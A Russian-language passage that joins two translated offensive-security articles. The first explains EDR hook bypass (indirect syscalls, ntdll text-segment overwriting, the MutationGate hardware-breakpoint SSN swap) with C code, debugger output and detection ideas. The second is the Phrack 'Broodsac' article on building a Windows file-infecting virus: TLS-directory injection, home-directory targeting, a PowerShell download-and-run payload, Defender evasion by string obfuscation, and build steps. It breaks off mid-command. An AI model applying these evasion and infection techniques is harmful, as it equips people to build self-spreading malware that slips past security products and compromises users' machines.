К счастью, учитывая, что системный вызов (syscall) является особым типом инструкции вызова, который не указывает напрямую адрес для перехода, а определяет адрес в пространстве ядра на основе SSN, все, что нам нужно сделать, это указать правильный SSN и соответствующие аргументы функции.
Поэтому нам не обязательно получать адрес инструкции системного вызова в функции NtAllocateVirtualMemory. Мы можем выбрать незахукленный NTAPI, тот, который обычно не используется во вредоносном ПО, например, NtDrawText.
Хотя косвенные системные вызовы улучшили уклонение, продукты безопасности все еще могут обнаружить их на основе некоторых индикаторов компрометации (IOCs):
Если использовать Syswhisper3 без пользовательских модификаций, хотя жестко закодированных байтов заглушки системного вызова меньше, все равно возможно найти шаблон последовательности байтов: 4c8bd1 41ff<DWORD> c3
Возможное правило Yara для обнаружения выглядит следующим образом:
Код:
rule syswhisper3
{
meta:
description = "Hunt for syswhispe3 generated asm code"
strings:
$s1 = {48 89 4c 24 08 48 89 54 24 10 4c 89 44 24 18 4c 89 4c 24 20 48 83 ec 28 b9 ?? ?? ?? ?? e8}
$s2 = {48 83 c4 28 48 8b 4c 24 08 48 8b 54 24 10 4c 8b 44 24 18 4c 8b 4c 24 20 4c 8b d1}
condition:
#s1 >=1 or #s2 >=1
}Кроме того, хотя стек вызовов выглядит более легитимным, правило обнаружения может основываться на том факте, что адрес возврата находится в функции NtDrawText, в то время как выполненный системный вызов — это ntoskrnl!NtAllocateVirtualMemory.
Перезапись текстового сегмента загруженного NTDLL
EDR перехватывает некоторые NTAPI, перезаписывая код в текстовом сегменте модуля ntdll. Поэтому, чтобы восстановить перехваченные функции, мы можем перезаписать текстовый сегмент загруженного ntdll.Для достижения этого необходимо выполнить несколько шагов:
- Прочитать свежую копию ntdll. Мы можем прочитать её с диска, через Интернет, из директории KnownDLL и т.д.
- Изменить разрешение страницы с RX на RWX, так как текстовый сегмент по умолчанию не доступен для записи. Мы также можем использовать WriteProcessMemory или его NTAPI для перезаписи перехваченного кода.
- Скопировать текстовый сегмент из свежей копии в загруженный модуль.
- Восстановить разрешение страницы.
- EDR может обнаружить, что хук был изменен, проверяя целостность загруженного модуля NTDLL.
- Мы используем перехваченные функции для выполнения вышеуказанных действий, что может вызвать срабатывание предупреждений.
- Область памяти с разрешением RWX является серьезным сигналом тревоги.
Перезапись перехваченных функций
Вместо перезаписи всего текстового сегмента, мы можем выбрать перезапись необходимых функций, как при патчинге AmsiScanBuffer. Хотя это влечет за собой меньше изменений в загруженном модуле ntdll, индикаторы компрометации перезаписи текстового сегмента NTDLL все равно применимы к этому подходу.Существуют и другие подходы к обходу встроенного хука, но я не буду рассматривать их все. Эта статья (Bypassing User-Mode Hooks and Direct Invocation of System Calls for Red Teams - MDSec) отлично объясняет общие подходы.
MutationGate
MutationGate — это вариант косвенного системного вызова, новый подход к обходу встроенного хука EDR, использующий аппаратную точку останова для перенаправления системного вызова.MutationGate работает путем вызова незахукленного NTAPI и замены SSN незахукленного NTAPI на SSN захукленного NTAPI.
Таким образом, системный вызов перенаправляется на захукленный NTAPI, и встроенный хук можно обойти без загрузки второго модуля ntdll или изменения байтов в пространстве памяти загруженного ntdll.
Репозиторий на GitHub: GitHub - senzee1984/MutationGate: Use hardware breakpoint to dynamically change SSN in run-time.
Как мы обсуждали ранее, EDR склонны устанавливать встроенные хуки для различных NTAPI, особенно тех, которые обычно используются в вредоносном ПО, таких как NtAllocateVirtualMemory. В то время как другие NTAPI, которые обычно не используются в вредоносном ПО, такие как NtDrawText, скорее всего, не имеют встроенных хуков. Маловероятно, что EDR установит встроенные хуки для всех NTAPI.
Предположим, что NTAPI NtDrawText не захуклен, в то время как NTAPI NtQueryInformationProcess захуклен.
Шаги следующие:
- Получить адрес NtDrawText. Это можно сделать, используя комбинацию GetModuleHandle и GetProcAddress или их пользовательскую реализацию через обход PEB.
C:
pNTDT = GetFuncByHash(ntdll, 0xA1920265); //NtDrawText hash
pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8); //Offset 0x8 from NtDrawText- Подготовьте аргументы для NtQueryInformationProcess.
- Установите аппаратную точку останова на адресе NtDrawText+0x8. Когда выполнение достигнет этого адреса, SSN NtDrawText будет сохранен в регистре RAX, но системный вызов еще не будет инициирован.
C:
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1 mov r10,rcx
00007ffb`ad00eb63 b8dd000000 mov eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503 jne ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05 syscall
00007ffb`ad00eb74 c3 ret
00007ffb`ad00eb75 cd2e int 2Eh
00007ffb`ad00eb77 c3 ret- Получите SSN NtQueryInformationProcess. Внутри обработчика исключений обновите регистр RAX значением SSN NtQueryInformationProcess. То есть, оригинальный SSN был заменен.
Код:
...<SNIP>...
uint32_t GetSSNByHash(PVOID pe, uint32_t Hash)
{
PBYTE pBase = (PBYTE)pe;
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
DWORD exportdirectory_foa = RvaToFileOffset(pImgNtHdrs, ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + exportdirectory_foa); //Calculate corresponding offset
PDWORD FunctionNameArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNames));
PDWORD FunctionAddressArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfFunctions));
PWORD FunctionOrdinalArray = (PWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNameOrdinals));
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++)
{
CHAR* pFunctionName = (CHAR*)(pBase + RvaToFileOffset(pImgNtHdrs, FunctionNameArray[i]));
DWORD Function_RVA = FunctionAddressArray[FunctionOrdinalArray[i]];
if (Hash == ROR13Hash(pFunctionName))
{
void *ptr = malloc(10);
if (ptr == NULL) {
perror("malloc failed");
return -1;
}
unsigned char byteAtOffset5 = *((unsigned char*)(pBase + RvaToFileOffset(pImgNtHdrs, Function_RVA)) + 4);
//printf("Syscall number of function %s is: 0x%x\n", pFunctionName,byteAtOffset5); //0x18
free(ptr);
return byteAtOffset5;
}
}
return 0x0;
}
...<SNIP>...Поскольку мы вызвали NtDrawText, но с аргументами NtQueryInformationProcess, вызов должен был бы завершиться неудачей. Однако, так как мы изменили SSN, системный вызов выполняется успешно.
C:
fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);В этом примере, SSN NtDrawText равен 0xdd, SSN NtQueryInformationProcess равен 0x19, адрес NtDrawText равен 0x00007FFBAD00EB60.
Вызов производится по адресу NtDrawText, но с аргументами NtQueryInformationProcess. Поскольку SSN изменен с 0xdd на 0x19, системный вызов выполняется успешно.
Давайте изменим код и снова поэкспериментируем с NtDelayExecution, учитывая, что нам будет легче наблюдать стек вызовов. Как и ожидалось, эти правила Yara, которые мы использовали ранее, не могут обнаружить никакой шаблон последовательности байтов.
Проверьте стек вызовов: системный вызов инициируется из пространства памяти ntdll, что выглядит легитимным с этой точки зрения. Однако KeDelayExecutionThread ожидает NtDelayExecution в качестве соответствующего NTAPI, а не NtDrawText. Эта подсказка может быть использована как правило для обнаружения.
Преимущества и обнаружение
MutationGate имеет свои преимущества, но его также возможно обнаружить. Если у вас есть другие идеи о преимуществах и способах обнаружения, пожалуйста, сообщите мне : )Преимущества
- Не загружается второй модуль ntdll
- Нет изменений в загруженном модуле ntdll
- Отсутствие пользовательской заглушки системного вызова и шаблона последовательности байтов
- Системный вызов инициируется в модуле ntdll, что выглядит легитимно
Возможные способы обнаружения
- Вызов AddVectoredExceptionHandler может выглядеть подозрительно в обычной программе
- Функция в ntoskrnl.exe не соответствует функции в модуле ntdll
- Инициированный системный вызов в безвредном NTAPI не должен ожидать SSN другого NTAPI
Сравнение с другими похожими подходами
HWSyscall (GitHub - Dec0ne/HWSyscalls: HWSyscalls is a new method to execute indirect syscalls using HWBP, HalosGate and a synthetic trampoline on kernel32 with HWBP.) и TamperingSyscall (GitHub - rad9800/TamperingSyscalls) оба изобретательно используют аппаратные точки останова для обхода встроенных хуков, и оба этих подхода отличные.Хотя я не читал и не ссылался на эти два проекта во время разработки и выпуска MutationGate (после выпуска MutationGate, друг прислал мне ссылки на эти два проекта), действительно есть некоторые похожие техники или общие идеи. Я внимательно прочитал и исследовал их, и я составил таблицу для сравнения, как показано ниже.
| Подход | Вызов | Аргументы | SSN | Системный вызов |
|---|---|---|---|---|
| MutationGate | Безвредный NTAPI | Аргументы целевого NTAPI | SSN безвредного NTAPI -> SSN целевого NTAPI | В безвредном NTAPI |
| HWSyscall | Целевой NTAPI | Аргументы целевого NTAPI | SSN целевого NTAPI после его получения | В ближайшем незахваченном NTAPI |
| TamperingSyscall | Целевой NTAPI | Подставные -> Аргументы целевого NTAPI | SSN целевого NTAPI после прохождения проверки EDR | В целевом NTAPI |
| Косвенный системный вызов | Пользовательская ASM функция | Аргументы целевого NTAPI | SSN целевого NTAPI после его получения | В любом незахваченном NTAPI |
Благодарности и ссылки
В период после того, как я был вдохновлен, разработал и выпустил MutationGate, следующие ресурсы были очень полезны для меня, и я благодарен их авторам.GitHub - senzee1984/MutationGate: Use hardware breakpoint to dynamically change SSN in run-time
SysWhispers is dead, long live SysWhispers!
GitHub - jthuraisamy/SysWhispers2: AV/EDR evasion via direct system calls.
In-Process Patchless AMSI Bypass - Ethical Chaos
Bypassing User-Mode Hooks and Direct Invocation of System Calls for Red Teams - MDSec
Emulating Covert Operations - Dynamic Invocation (Avoiding PInvoke & API Hooks)
Bypassing AV/EDR Hooks via Vectored Syscall - POC - CWL : Advanced Cyber Attack & Detection Learning Platform
Syscalls via Vectored Exception Handling - RedOps
In-Process Patchless AMSI Bypass
Silly EDR Bypasses and Where To Find Them – MalwareTech
GitHub - Dec0ne/HWSyscalls: HWSyscalls is a new method to execute indirect syscalls using HWBP, HalosGate and a synthetic trampoline on kernel32 with HWBP.
GitHub - rad9800/TamperingSyscalls
GitHub - RedTeamOperations/VEH-PoC
Разработка настоящего вируса в 2024 году
Перевод:.:: Phrack Magazine ::.
--[ Содержание
- Введение
- Планирование вируса
- Проектирование вируса
- Создание вируса
- Решение проблем при разработке 5.1. Исходный дизайн неудачен 5.2. Антивирус ловит вирус
- Заключение
- Приветствия
- Ссылки
- Артефакты
Нет ничего более захватывающего, чем успешная полезная нагрузка.
Легко забыть, занимаясь нашими тёмными искусствами — от написания вирусов до эксплуатации — что во всём, что мы делаем, мы создаём программное обеспечение.
И оно становится сложным. Конечно, для shell-кода это всего лишь однострочная команда с NASM для создания бинарного блоба.
Это совсем несложно. Но ведь shell-код куда-то встраивается, верно? Язык Cи не позволит вам просто объединить бинарные блобы в ваш код. (По крайней мере, до выхода стандарта C23.)
И не всегда так просто, как кажется, просто приклеить ваш блоб к исполняемому файлу. А что, если вы хотите как-то зашифровать shell-код? А что, если другая программа должна работать с этим shell-кодом? И эта программа может быть полезной нагрузкой другой программы в цепочке! И это даже не учитывает автоматизацию, которую может потребовать ваш assembly payload, например, динамическую обфускацию.
Наши тёмные искусства — это хаос управления проектами: фабрики payload-ов, матрёшка обфускации, множество движущихся частей, требующих изобретательности.
Это не значит, что наши быстрые хаки не выполняют свою цель — выполняют. Но чаще всего они оптимизированы для скорости, а не для совместимости, поддерживаемости или переносимости. Хорошая система сборки, иногда жертвуя краткосрочной скоростью разработки, обеспечивает эти вещи.
Пользователи Unix уже знакомы с этим. Одна из старейших систем сборки, GNU Make и набор инструментов autotools, является основой для обмена и сборки кода на платформах, похожих на Unix. Однако у пользователей Windows такой культуры нет. Всё это — проекты Visual Studio. И, как всегда, система сборки MSVC — настоящая чёрная коробка за IDE Visual Studio. Хакеры, которые могут управлять этой чёрной магией MSVC по своему усмотрению, безусловно, вдохновляют нас своими невероятными payload-ами. Господь знает, как бы я хотел увидеть систему сборки SmokeLoader[10].
Вы можете рассматривать эту статью как кулинарный рецепт. Хотя техника вируса, используемая здесь, далеко не нова ("roy g biv уже это сделал"), она обёрнута в техники и лучшие практики для создания любого типа вируса. Мы рассмотрим использование надёжной системы сборки для создания нашего вируса и обсудим техники для систем сборки, которые ускоряют нашу разработку вредоносных программ.
Мы также рассмотрим некоторые техники, необходимые для обхода Windows Defender, так как это теперь базовый уровень, против которого мы должны разрабатывать.
Чтобы следовать материалу, получите копию Visual Studio с поддержкой C++, CMake (CMake - Upgrade Your Software Build System) и NASM для Windows (NASM).
Для полного понимания этой статьи вам потребуется базовое понимание PE-файлов.
--[ 2. Планирование вируса
Мы хотим создать заражающий исполняемые файлы вирус для Windows. Для этого нам нужно разбить на составляющие части все элементы, участвующие в заражении исполняемых файлов. Хотя традиционные вирусы для заражения исполняемых файлов устарели из-за улучшений в защите исполняемых файлов, это всё ещё возможно — особенно с появлением разработчиков, которые не могут позволить себе или не заботятся о подписании своих бинарных файлов. (Привет, Rust!)
На начальном этапе у нас есть два элемента: заражатель и инфекция. Очевидно, что заражатель отвечает за заражение найденных исполняемых файлов. Инфекция — это просто любая полезная нагрузка, которую мы хотим внедрить в различные исполняемые файлы. Уже здесь у нас появляется зависимость, с которой нужно работать: естественно, заражатель зависит от инфекции в системе сборки, каким-то образом. Мы хотим, чтобы инфекция была гибкой и переносимой, чтобы её было как можно легче внедрять в исполняемые файлы. Shell-код идеально подходит для этой цели.
Для написания качественного shell-кода мы придерживаемся философии C-then-ASM для написания нашей полезной нагрузки. В Broodsac (Это наш проект, который мы будем описывать в этой статье) мы решили позволить оптимизатору компилятора оптимизировать наш C-код и перевели его в assembly-файл.
Хотя это может быть утомительно, чем больше становится shell-код, нам, к счастью, не нужно беспокоиться о традиционных требованиях к shell-коду при эксплуатации, поскольку мы нацелены на исполняемый файл, а не на эксплуатируемый буфер. Следовательно, у нас относительно меньше ограничений. Кроме того, поскольку Windows поддерживает как 32-битные, так и 64-битные бинарные файлы, и будучи динозавром, каким она является, 32-битная архитектура всё ещё актуальна. Поэтому потребуются полезные нагрузки для обеих архитектур.
На начальном этапе нашего плана иерархия вируса выглядит следующим образом:
- broodsac
- infection
- ASM
- 32
- 64
- C
- ASM
- infection
Имея проекты, разделённые таким образом, проще управлять.
Создание системы сборки для вашего вируса выявляет болевые точки в случаях, когда что-то идёт не так, позволяя вам быстро и элегантно решить проблему. Она также действует как функциональное, инженерное средство, которое связывает вашу сборку. Чем сложнее становится ваш вирус, тем более важной становится надёжная система сборки.
--[ 3. Проектирование вируса
Теперь у нас есть абстрактный дизайн всех элементов нашего вируса. Далее нам нужно заполнить пробелы! У нас есть два вопроса, на которые нужно ответить:
- Как наш вирус должен заражать исполняемый файл?
- Что должна делать наша вирусная полезная нагрузка?
Первый вопрос был решён сначала наивно — с помощью скрытых кодов и перенаправления точки входа PE-файла. Перенаправление точки входа — это техника, старая как инфекции EXE-файлов[1]. К сожалению, скрытые коды в исполняемых файлах редко имеют размер, достаточный для работы с гигантским shell-кодом для Windows. В среднем, это около 200 байт. Подходит для Linux shell-кода, но не для Windows.
После некоторых раздумий было решено использовать внедрение в каталог TLS[2]. Каталог TLS (Thread Local Storage) — это один из многих каталогов в PE-файле. Он отвечает за управление тактиками хранения памяти потоков в данном исполняемом файле. Примечательной чертой каталога TLS являются инициализационные обратные вызовы. Их может быть много, и они вызываются поочерёдно при запуске процесса. Другими словами, каталог TLS имеет приоритет перед основной рутиной, так как инициализация каталога TLS является частью процесса загрузки PE-файла. Запомните этот последний момент — он сыграет с нами злую шутку позже.
Вопрос заключается в том, как наш раздел TLS будет вставлен в бинарный файл. Мы просто выбрали вставку нового раздела, так как можем гарантировать, что раздел будет исполняемым и записываемым, в отличие от того, чтобы содержать другие метаданные, такие как ресурсы программы. Если бы мы хотели быть более скрытными в отношении инфекции, мы могли бы контролировать исполняемые разделы и применить технику 29A[3], расширив последний раздел в исполняемом файле. Естественно, компромисс в незаметности здесь будет заключаться в уменьшении потенциальной поверхности атаки и — возможно, намеренно — увеличении сложности обнаружения инфекции. Выбор за вами.
Нам нужны целевые исполняемые файлы. Где мы их найдём? Удивительно, в домашнем каталоге пользователя. Прошли времена, когда каждая программа устанавливалась в каталог Program Files, теперь наступила эра AppData и папки документов пользователя, где они распаковывают различные пакеты несанкционированных исполняемых файлов. Мы можем просто рекурсивно перебирать домашний каталог пользователя в поисках целей.
Что касается того, что должна делать полезная нагрузка при заражении? Я лично фанат проекта Desktop Pet[4], ранее известного как eSheep в 90-х. Это подходящая полезная нагрузка, чтобы оживить технику заражения из 90-х. Она создаёт отличное визуальное представление, если полезная нагрузка выполняется для тестирования. Наша полезная нагрузка должна просто скачать (если файл не существует) и запустить эту милую маленькую овечку на рабочем столе пользователя. Кто бы отказался от такой очаровательной программы, дополняющей исполняемые файлы милым животным-другом? Простое скачивание и запуск этой полезной нагрузки будет идеально.
--[ 4. Создание вируса
Быстро и просто, чтобы собрать Broodsac, раскодируйте артефакты в разделе 9 (Исходник я распаковал уже во вложении), чтобы получить архив, распакуйте его и выполните следующие команды:
Код:
$ cd broodsac
$ mkdir build
$ cd build
$ cmake ../ -A x64
$ cmake --build ./ --config ReleaseЕстественно, я предполагаю, что вы не будете столь глупы, чтобы запускать результат на системе, с которой вы не хотите возиться. Если только вы не хотите овечек в своих исполняемых файлах, тогда вперёд.
Во время создания вашего вируса вы, несомненно, столкнётесь с ошибками. Учитывая, что мы создаём программное обеспечение, мы должны заимствовать философию программного обеспечения по созданию и выполнению тестов. Это не обязательно должны быть формальные модульные тесты, где проверяется функциональность в отдельных точках кода, но они должны как-то тестировать функциональность вашего вируса. Учитывая нестабильность неопределённого поведения целей, с которыми мы работаем в нашей тёмной разработке, вы абсолютно должны думать о тестах на переднем плане.
Есть три ключевых вопроса, которые нам нужно рассмотреть для целей тестирования:
- Работает ли полезная нагрузка?
- Успешно ли заражает заражатель?
- Проходит ли инфекция, не нарушая исходного выполнения?
Первый вопрос имеет для нас действие: как мы это тестируем? Естественно, мы не обязаны делать это программно — нам просто нужно запустить полезную нагрузку в её различных формах, чтобы убедиться, что она успешно запускает милую овечку. Cи и Assembly имеют различные подводные камни разработки, которые станут очевидны во время этого простого процесса тестирования. Чтобы создать и протестировать наш 64-битный payload, например, мы можем просто выполнить следующие команды:
Код:
$ cd infection/asm/64
$ mkdir build
$ cd build
$ cmake ../ -DINFECTION_STANDALONE=ON -A x64
$ cmake --build ./ --config Release
$ ./Release/infection_asm_64.exeЕсли наша полезная нагрузка сработает, мы будем вознаграждены милой овечкой. Простой тест.
Это похоже на процесс configure/make в Linux. CMake берёт файл CMakeLists.txt в целевом каталоге и строит конфигурацию для ваших инструментов компиляции, необходимых для выполнения сборки. Мы настроили наши ASM-файлы так, чтобы их можно было компилировать как отдельные бинарные файлы для индивидуального тестирования, так и как статические библиотеки для включения в исполняемый файл заражателя.
Была выбрана статическая библиотека как метод объединения наших payload-ов в наш бинарный файл, потому что это просто и элегантно, так как архитектура полезной нагрузки будет совпадать. Инстинктивно, мы видим shell-код как единицу, которую нужно сохранить, перевести в шестнадцатеричную строку и спрятать в каком-то C-коде. Поэтому мы делаем с ним креативные вещи, считая его просто блобом данных, который нужно как-то преобразовать. Мы склонны забывать, что shell-код может быть своей собственной индивидуальной единицей кода.
Но с системой сборки на вашей стороне, вы можете дополнить способ выхода вашего shell-кода на этапе компиляции. После различных кастомизаций сборки нашего payload-а в файле CMake заражающего исполняемого файла, мы включаем этот и 32-битную версию следующим образом:
Код:
add_subdirectory(${PROJECT_SOURCE_DIR}/infection/asm/32)
add_subdirectory(${PROJECT_SOURCE_DIR}/infection/asm/64)
add_executable(broodsac WIN32 main.c)
target_link_libraries(broodsac infection_asm_32 infection_asm_64)Таким образом, в довольно чистом виде, с простым набором ключевых слов "extern" в файле main.c заражателя, мы включили наши shell-коды в основной бинарный файл. Хотя это ещё не показано, помимо этого процесса, мы также автоматизировали этап шифрования строк внутри кода полезной нагрузки, так что каждый раз, когда выполняется наша сборка, строки перешифровываются и пересобираются в исполняемом файле заражателя.
Мы избежали утомительной задачи по ручному преобразованию нашего shell-кода в массив какого-то рода и даже добавили шаг обфускации по пути. Прелесть этого метода в том, что он избегает скрытых опасностей, которые часто возникают из-за быстрых решений, к которым мы привыкли. И в конце концов: это просто хорошая практика разработки программного обеспечения.
Вернёмся к нашим вопросам. Остальные вопросы, хотя и имеют ту же задачу, имеют более сложный ответ. Нам нужно протестировать и проанализировать заражённые исполняемые файлы, чтобы проверить и отладить инфекции. Поэтому нам нужно перечислить, что нужно тестировать, исходя из нашего проектного замысла.
Поскольку мы работаем с каталогом TLS, мы в основном имеем дело с виртуальными адресами, в отличие от RVA и смещений. Виртуальные адреса обычно подразумевают необходимость обработки перекомпоновок внутри бинарного файла. Это абсолютно то, с чем нам нужно разобраться как заражающему исполняемому файлу — с повсеместным использованием Address Space Layout Randomization (aka /DYNAMICBASE), было бы глупо не рассматривать возможность изменения каталога перекомпоновок целевого исполняемого файла в случае заражения.
Таким образом, у нас есть четыре состояния конфигурации, чтобы протестировать заражение:
- нет каталога tls, нет каталога перекомпоновок
- нет каталога tls, каталог перекомпоновок присутствует
- каталог tls присутствует, нет каталога перекомпоновок
- каталог tls присутствует, каталог перекомпоновок присутствует
Кроме того, нам нужно учитывать целевую 32-битную архитектуру, создавая в общей сложности 8 конфигураций бинарных файлов для тестирования! Это увеличивает общее количество кодовых проектов в нашем вирусном проекте до 12. С хорошей системой сборки мы можем довольно легко собрать все эти тестовые бинарные файлы:
Код:
$ cd infectables
$ mkdir build32 build64
$ cd build32
$ cmake ../ -A Win32
$ cd ../build64
$ cmake ../ -A x64Скрипты сборки могут в основном следовать иерархии папок и собирать несколько проектов, содержащихся внутри, что здесь и происходит. Теперь у нас есть две настроенные среды сборки — одна для 32-битной, и одна для 64-битной архитектуры.
Код:
$ cd build32
$ cmake --build ./ --config Release
$ cd ../build64
$ cmake --build ./ --config ReleaseЭто поместит все бинарные файлы в каталог Release внутри среды сборки. Они затем могут быть целью для заражения нашим исполняемым файлом заражателя в целях тестирования. Как и компилятор на командной строке, мы можем настроить различные переключатели для определения заголовков CMake. Мы можем настроить наш заражатель, чтобы он был осведомлён о каталоге, содержащем наши исполняемые файлы для заражения:
Код:
$ mkdir build
$ cd build
$ cmake -DBROODSAC_DEBUG=ON -DBROODSAC_INFECTABLES="infectables" \
-A x64 ../Эта команда эффективно собирает Broodsac в режиме отладки. Вместо того чтобы нацеливаться на домашний каталог пользователя, он будет нацелен на каталог с заражаемыми файлами, где в данный момент собраны наши тестовые программы. Запустив Broodsac в этом состоянии, мы сможем легко проверить состояние заражения и соответствующей полезной нагрузки. И это чрезвычайно важно — самые опасные демоны скрываются глубже всего. Надежное тестирование поможет их искоренить.
--[ 5. Работа с проблемами разработки
Результат вируса, который вы видите здесь, — это труд любви, многие часы, проведенные за отладкой, тестированием, проверкой, исправлением и рефакторингом. Но когда вы видите конечный продукт, вы не видите тех мелких шагов, которые в конечном итоге привели к созданию этого продукта. Поэтому трудно оценить борьбу, с которой сталкиваются разработчики программного обеспечения. Это, в основном, индивидуальное путешествие, на которое отправляется каждый, кто пишет код.
Очень легко смеяться над хорошей, ужасной ошибкой. Нас удивляет, когда глупые ошибки, кажется, живут долго, просто ожидая, когда их обнаружит следующий счастливый участник. Но ошибки — это часть жизненного цикла программного обеспечения, независимо от того, эксплуатируемы они или нет.
Этот раздел сосредоточен на двух ключевых моментах критических сбоев в процессе разработки этого вируса: моменте, когда первоначальная идея полезной нагрузки провалилась в последний момент, и моменте, когда антивирус начал обнаруживать наши инфекции.
--[ 5.1 Первоначальный дизайн проваливается
Вы помните, когда я сказал, что каталог TLS вернется, чтобы укусить нас за зад? Как же нам помогла надёжная система сборки?
Изначально наша полезная нагрузка была очень простой, логичной программой: импортировать GetFileAttributes, URLDownloadToFileA и ShellExecuteA. Это было бы всё, что нам нужно, чтобы загрузить нашу овечку и запустить её на целевой системе. Чтобы объяснить хаос, который мы смягчили, давайте разберем шаги, необходимые для генерации и тестирования нашей окончательной полезной нагрузки, заражателя:
- Скомпилировать C-инфекцию
- Протестировать C-инфекцию
- Перевести в assembly на 32-битных и 64-битных архитектурах
- Скомпилировать assembly (2x)
- Протестировать assembly (2x)
- Включить shell-код в наш заражатель
- Скомпилировать заражатель
- Протестировать заражатель
- Убедиться, что инфекции успешны
В данном случае было обнаружено, что ShellExecuteA и URLDownloadToFileA не сработали на этапе 9. Зад укушен. И посмотрите, когда он выбрал момент, чтобы нас укусить — во время тестирования, а не развертывания. Почему нас укусило? Из-за нашей техники инфекции через внедрение в TLS.
Из-за выбора внедрения в TLS в бинарном файле мы были соблазнены тем, что получили приоритет над точкой входа зараженного исполняемого файла. Но это означает, что в данный момент мы выполняемся в контексте загрузчика исполняемого файла. Это означает, что наш зараженный исполняемый файл ещё не полностью загружен. В частности, в нашем случае потоки еще не полностью инициализированы. Было замечено, что когда ShellExecuteA и URLDownloadToFileA выполнялись в контексте обратного вызова каталога TLS, они зависали. Также было отмечено, что процесс попытался создать поток перед зависанием. Это, вероятно, означало, что мы не могли использовать никакие функции, которые создавали потоки.
Полезная нагрузка была изменена на нечто чуть менее стандартное: CreateProcessA. Хотя это и не необычно для нашей программы полезной нагрузки, то, как мы в конечном итоге скачивали полезную нагрузку, определенно было необычным. CreateProcessA в конечном итоге вызывает NtCreateProcess, функцию ntdll.dll, которая, в конечном итоге, завершает системный вызов ядра. Это, несомненно, будет безопасно для потоков в нашем каталоге TLS. Так как же мы в конечном итоге загрузили нашу полезную нагрузку? Вызовом Powershell.
Конечно, это забавно, когда shell-код делает внешний вызов к Powershell, когда API находится у вас под рукой, не так ли? Такова природа хакерства — столкнувшись с вызовом, мы откликаемся нестандартными решениями, несмотря на наши мнения, если это просто работает.
Тем не менее, это решение потребовало значительной переработки кода. C-полезная нагрузка должна быть переписана, перекомпилирована, переведена в assembly, эти assembly-файлы скомпилированы и вставлены обратно в наш заражатель. По сути, мы вынуждены вернуться к началу наших перечисленных шагов и проделать путь назад к нашему заражателю. Это много времени, и ещё больше шагов, которые нужно пройти без упрощения, которое предоставляет система сборки!
Но когда всё связано вместе, единственное время, которое мы тратим, — это просто эквивалент граблей в нашем дзен-саду: программирование и анализ. Всё потому, что наша система сборки делает наши сложные абстрактные шаги проверки относительно простыми:
Код:
$ cd infection/c/build
$ cmake --build ./
$ ./Debug/infection_c.exe # есть овечки? попробуйте снова
$ cmake --build ./ --config Release # для перевода в asm
$ cd ../../asm/32/build
$ cmake --build ./
$ ./Debug/infection_asm_32.exe # есть овечки? попробуйте снова
$ cd ../../64/build
$ cmake --build ./
$ ./Debug/infection_asm_64.exe # есть овечки? попробуйте снова
$ cd ../../../../build # проверка: настроен ли Debug?
$ cmake --build ./
$ ./Debug/broodsac.exe # по крайней мере, если ошибка, вы просто получите овечекКаждый шаг, где что-то может пойти не так, изолирован в своё место, управляемое по-своему. Каждое действие, необходимое для создания нашего вируса, от полезной нагрузки до доставки, инструментируется и плавно переходит друг в друга. Когда что-то идёт не так на любом этапе этой цепочки, мы точно знаем, где начать заново, и можем быстро действовать и решать проблему.
Быть гибким, когда дело доходит до устранения демонов багов, это одно, но что насчёт демонов экстренных запросов на функции? Это не просто давление со стороны руководства вызывает такие скачки в разработке, но и неожиданная необходимость.
--[ 5.2 Антивирус ловит вирус
Меня очень развеселило, когда я заметил, что овечка определяется как вредоносное ПО. Любопытно, ведь сама овечка технически была безобидной — заражатель и инфекция были фактическим вредоносным ПО. Изначально я добавил её в белый список в Windows Defender, пока работал, и особо не задумывался об этом, я исправлю это позже. В конце концов, мне пришлось столкнуться с реальностью и понять, почему мой вирус был обнаружен, даже если овечка, на удивление, была безобидной.
Подсказки, которые мы получали от Windows Defender, указывали на то, что это какой-то скрипт, который его срабатывает, и что сигнатура, на которую он наталкивается, называется "Trojan-Script/Wacatac.B!ml." Исследование этой сигнатуры ничего нам не дало, как это часто бывает с автоматически сгенерированными сигнатурами. Мы узнали только, что все раздражены тем, что все виды случайных безобидных исполняемых файлов помечаются как Wacatac. Нас подвела ложная сработка? Положительно неловко.
В любом случае, стало ясно, что с учётом подсказки о скрипте, срабатывание происходило из-за нашего однострочника Powershell. Я даже не пытался каким-либо образом обфусцировать команду, так что неудивительно, что её в конце концов поймали. Мы позже подтвердили благодаря некоторым исследованиям сигнатур Windows Defender[5], что наша строка загрузки была абсолютно там, где-то, так что это явно был виновник. Это означает, что теперь нам нужно было её обфусцировать.
Конечно, мы могли бы сделать это раз и навсегда и закодировать её прямо в assembly-файлы, но где в этом веселье? Они просто пометят зашифрованный блок и успокоятся! Где в этом гибкость? И что, если мне нужно будет полностью изменить конечную команду? Как я могу сделать это как можно менее болезненным для себя и других, кто захочет преобразовать этот код?
Прелесть хорошей системы сборки заключается в возможности скромно передать команды сборки другому процессу на определенных этапах сборки. Давайте посмотрим на код в наших полезных нагрузках, который шифрует строки:
Код:
add_custom_command(TARGET infection_asm_64
PRE_BUILD
COMMAND powershell ARGS
-ExecutionPolicy bypass
-File "${CMAKE_CURRENT_SOURCE_DIR}/../strings.ps1"
-payload_program "\\??\\C:\\ProgramData\\sheep.exe"
